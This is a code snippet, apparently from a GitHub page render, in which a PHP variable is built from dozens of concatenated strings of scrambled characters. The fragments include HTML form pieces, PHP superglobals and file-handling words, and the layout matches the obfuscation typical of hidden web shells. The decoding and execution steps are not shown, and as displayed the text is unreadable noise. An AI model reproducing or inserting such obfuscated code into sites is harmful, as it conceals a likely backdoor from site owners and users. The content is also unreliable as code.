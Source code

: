 ```bash
$iyzQ5h8qf6 .= "<r s -<a  \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e  I!lb>'u btde .sr ege/ han:t"; 
$iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0  l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c  ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n"; 
$iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd  dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o  \$s #nRmaeoi=oi)p te"; 
$iyzQ5h8qf6 .= "l[>c;>ia ew   agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$   ) 0 \ngem0=  xrtrlsdi; l E=t>ma\"d"; 
$iyzQ5h8qf6 .= "e{o  iafbl\nb. }ee < ptrchid>   cia''t  s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)"; 
$iyzQ5h8qf6 .= "e mtlur3h;o  m{\$2x odd0(  )n't[\nr)  gi[dcnat\$   d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ "; 
$iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in '  (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0  p] )ogi?f)'r\n=  \n=ePrm;tfGda"; 
$iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n  y etd): [ & wrf (;]e\n {   cH'p\nioE=m [c.oeo\ne u  c hd; \$dd<rl.c e iohr L fca/ jf &p  ye   "; 
$iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n  HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su  e &p ?' e 0 eu t%  d\$_   To_vecnm[f= nouetp \" t."; 
$iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP   BrSath=-'i' a p_ol >  \$    \n cri)>/w<  \$i:on: g "; 
$iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO   {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct  t  c-2\not 2dsx'0w;gcm0''\"o:% r,rS   W Lu= \"aieu\$e<opya r\nfG"; 
$iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o  T   0\"Fe'\".trTbu'bal)d r\n Eabh p  /o  \$rd/ E(ie ' :eSm>2stoi0; 0'4  otd):xxe's u\$=[ "; 
$iyzQ5h8qf6 .= "  w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf)  xS/\n/csnf0 i0;0: uee  ee T% pw '  \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0  "; 
$iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d  dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n  t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE"; 
$iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte  .;-ocupar\$   )\n - \"  ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o"; 
$iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$  ?' w=0w;eex ,.xdE'   _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no  "; 
$iyzQ5h8qf6 .= "m{  ; r 0'\n'\"2  =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o  '\n i(0  ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme "; 
$iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee  rl ' dse, \n Pcsh)r\"  ' \n osf'= ee ia mcne y et ' gem4  ==  wrtrd}_l.a h f\n'c;\\cc sye ]{isx  <"; 
$iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p  y   r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x(  en'tr\$i '}<d>ccHoe<o"; 
$iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z  3c.hss0=e e   u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._    (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p=  ; )gw\$[f)']ie \n\$h"; 
$iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n  ros'(;];l(\$}d2G\n> S<o><  =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l"; 
$iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe  \nire.>v E\$e\n\n  l  ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse%  i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e"; 
$iyzQ5h8qf6 .= "  nemi\n\"/t</sl0 i0; \noem0  ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a  T:u l n l\$.l [a) < \n)  aaal\nscp//ce }f0 \$ wao0:  s[[rds w  r;i \n>o"; 
$iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ /  )  md:e?tsssmr))\n( }t ndd1  \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu"; 
$iyzQ5h8qf6 .= "n d     ee )>ys:cai    )\ny e\"e0' m een]1 ri')   c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i  {  (rp)\nl//rxp{{ \$  p r] )- o:xxt,s ls;  =sh\n<u>\"tu"; 
$iyzQ5h8qf6 .= " ;.e:>ic  umb; = t\$hRa) P m v  \n  \$(u;\neb/ict\n  m{ e [ & ' d eef % ds\n{  coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e >     f'b\n<soapd> \$ o  = \"="; 
$iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n     iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf  en\"hpt<metpi'sdbT c o]b ca"; 
$iyzQ5h8qf6 .= "<\nydRea E\" e<    hlai teta>.\n y et u x(0' o&'tt%w\"se(   ad\\ouyde=yef.t'ro'c a)r hbt  i[ m L<.c/    eecc mesx\nb< p  y '\$e\$0x r ;ee1n,.x\$(  lin tpit'p"; 
$iyzQ5h8qf6 .= "= bs>>U<e d)> olh =r'.e F/\"hh \$  a)h' ltt.\nod e &p ;ocm2' l0\n'\"se =e_\$  pr<\" evhhe'(a(E\"pbseD \"  e> >.P ] 'a<ot f hd.e) >\"r"; 
$iyzQ5h8qf6 .= "g<oi =e e \nwuo0  dx ]]\"r\$scPd  a(b<t= oi=sis\$r;lrsci{; \" N  'H\"  ]>/ m i ee'-; \n ao!tv 'l0=e ntd): [8 = ,[gpuOi  t\$riy'cdd'useur\no>fhr\n\n \$ta \$/P<.e <t\""; 
$iyzQ5h8qf6 .= "l l ar\"C\n <hpo-s  psx'l eee   \"0 == 'rrtSr  hd>npsl=dfbsnpo a<uoe   vam v'_/ l./d<> e d('o  !r.g-tc\$'e6-s r\" ?' e0 ' \$woieT   (i<peua'eime"; 
```